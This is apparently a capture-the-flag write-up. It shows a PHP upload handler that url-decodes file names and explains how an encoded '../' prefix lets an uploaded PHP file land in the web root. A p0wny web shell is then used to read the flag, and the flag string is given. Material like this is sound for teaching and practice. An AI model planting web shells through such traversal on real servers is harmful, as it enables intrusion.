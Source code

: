 # WRITEUP

See this.

```php
if(isset($_FILES["file"])) {
        $error = '';
        $success = '';
        try {
            $file = $dir . "/" . urldecode($_FILES["file"]["name"]);
            move_uploaded_file($_FILES["file"]["tmp_name"], $file);
            $success = 'Successfully uploaded file at: ' . $file;
        } catch(Exception $e) {
            $error = $e->getMessage();
        }
    }
```

See this `urldecode($_FILES["file"]["name"])`<br>
urldecode ❓❓

Go submit simple file .php : `<?php echo("pwn");?>` <br>
Add %2e%2e%2f%2e%2e%2f to head of file name. Like: %2e%2e%2f%2e%2e%2fshell.php. <br>
See, it's pwned.

Go submit file shell.php (from [p0wny@shell](https://github.com/flozz/p0wny-shell)).

```
p0wny@shell:…/www/html# find / -name flag.txt 2> /dev/null
...
/flag.txt

p0wny@shell:…/www/html# cat /flag.txt
CTF{f1Le_uPl0aD_plUs_p@th_trAv3rsal}
```

> CTF{f1Le_uPl0aD_plUs_p@th_trAv3rsal}

